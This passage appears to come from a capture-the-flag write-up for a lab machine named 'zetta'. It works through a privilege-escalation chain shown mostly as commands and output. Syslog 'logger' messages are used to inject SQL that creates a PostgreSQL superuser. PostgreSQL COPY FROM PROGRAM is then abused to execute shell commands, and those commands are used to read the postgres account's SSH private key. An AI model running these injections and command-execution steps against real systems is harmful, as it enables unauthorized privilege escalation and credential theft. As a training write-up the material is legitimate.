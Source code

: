 So,for that I tried to create the user roy using postgres, logger and sql injection so my payload was 

## Logger -> Sql -> Superuser roy

```bash
roy@zetta:~$ logger -p local7.info "aaa',current_timestamp);CREATE USER roy; --"
roy@zetta:~$ psql -d syslog
psql (11.4 (Debian 11.4-1))
Type "help" for help.

syslog=>
```
After that, I created the user roy for syslog and used the postgres command to see what things are inside the syslog database. Since this box got postgres I googled for latest exploit of postgresql and got `COPY FROM PROGRAM Command Execution vulnerability`. For more info about it you can click [here](https://www.exploit-db.com/exploits/46813).

And instead of using Metasploit I used the manual ways to exploit this vulnerability for that I used this blog [here](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/authenticated-arbitrary-command-execution-on-postgresql-9-3/).

On reading blogs to use `COPY` command user must be superuser only then I can exploit it. For that I changed the user _roy_ to superuser as

```
roy@zetta:~$ logger -p local7.info "aaa',current_timestamp);ALTER USER roy WITH SUPERUSER; --"                                                             
```

Now I exploit the postgres and able to run the command injection in syslog database. At my first attempt I was interrupted and unable to run command in postgres but after 2nd/3rd attempt I used (`$$`)Dollar-quoting for escaping single quotes in postgres to exploit command injection.

## Command Injection -> Postgres shell
```mysql
syslog=# CREATE TABLE RCE(RCE text);
CREATE TABLE
syslog=# COPY RCE FROM PROGRAM $$id$$; 
COPY 1
syslog=# SELECT * FROM RCE;
                                  rce                                   
------------------------------------------------------------------------
 postgres
 uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
(2 rows)
```
Now I have to get the postgres shell for that I should have id_rsa key. Now for that I found the `id_rsa` key of postgres in directory `/var/lib/postgres/.ssh/`
So for that I used that cat command in command injection and able to cat the RSA key.

```mysql
syslog=# COPY RCE FROM PROGRAM $$cat ../../.ssh/id_rsa$$;                                                                                                
COPY 6                                                                                                                                                
syslog=# SELECT * FROM RCE;                                                                                                                           
                                     rce                                                                                                              
------------------------------------------------------------------------------
 postgres
 uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
 /var/lib/postgresql/11/main
 total 20
 drwxr-xr-x  4 postgres postgres 4096 Jul 27  2019 .
```